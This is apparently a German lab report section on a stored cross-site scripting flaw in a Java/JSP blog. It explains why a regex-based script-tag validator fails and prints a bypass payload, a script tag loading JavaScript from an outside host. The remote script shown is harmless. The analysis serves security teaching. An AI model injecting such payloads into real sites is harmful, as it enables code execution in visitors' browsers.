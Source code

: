 \section{App1 - Blog in Java mit JSP}

\subsection{Vulnerability: Cross-Site Scripting}

Das Blog ist anfällig für Cross-Site Scripting. Das Problem liegt darin, dass die Eingabedaten beim Erzeugen eines neuen Blog-Eintrags nur unzureichend gefiltert werden. Beim erneuten Anzeigen eines betroffenen Blog-Eintrags werden diese Daten - die z. B. beliebigen JavaScript-Code enthalten können - dann an den Browsers gesendet und dort ausgeführt.

\subsubsection{Ein harmloses Beispiel}

Ein konkretes Beispiel für einen Angriff: Der Angreifer \emph{evil\_hacker} legt einen neuen Blog-Eintrag an. Im Formular auf \url{newPost.html} gibt er als Benutzernamen wahrheitsgemäß \lstinline$evil_hacker$ ein. Als Text des Blog-Eintrags wählt er \lstinline$<SCRIPT SRC=http://web.student.tuwien.ac.at/~e9902433/xss.js></SCRIPT>$.

Im Servlet, das den Post-Request entgegen nimmt (\url{gui.controller.BlogServlet}) wird die Eingabe zwar validiert, bevor sie in die (In-Memory-)Datenbank geschrieben wird. Leider ist der verwendete Validator (\url{gui.helper.ScriptTagValidator}) nicht ausreichend. Die verwendete Regular Expression \lstinline$.*< *[Ss][Cc][Rr][Ii][Pp][Tt] *>.*"$ matcht nur Script-Tags, die keine Attribute zwischen dem Wort "script" und der schließenden Spitz-Klammer enthalten. Durch die Angabe \lstinline$SRC=http://web.student.tuwien.ac.at/~e9902433/xss.js$ lässt sich der Validator also in die Irre führen und lässt die Eingabe ungefiltert durch.

Auf dem Webspace von \emph{evil\_hacker} liegt unter der URL \url{SRC=http://web.student.tuwien.ac.at/~e9902433/xss.js} eine JavaScript-Datei mit dem folgenden Inhalt:

\begin{lstlisting}
document.write('This is the evil script!')
\end{lstlisting}

Da bei der Ausgabe der Blog-Einträge die Inhalte überhaupt nicht mehr gefiltert werden, wird also der folgende Text als Blog-Eintrag wieder ausgegeben (z. B. in archive.jsp). Im Browser wird das Script-Tag dann so behandelt, als würde es aus vertrauenswürdiger Quelle kommen: Das Script von der angegebenen URL wird heruntergeladenen und ausgeführt. Im konkreten Fall wird dadurch an der Stelle, an der sich das Script-Tag befand der Text "This is the evil script" ausgegeben. (Der Vollständigkeit halber soll darauf hinwiesen werden, dass der Angriff auch funktionieren würde, wenn der Angreifer das Script-Tag als Autoren-Namen und nicht als Blog-Text eingegeben hätte, da diese beiden Werte auf exakt dieselbe Art behandelt werden.)

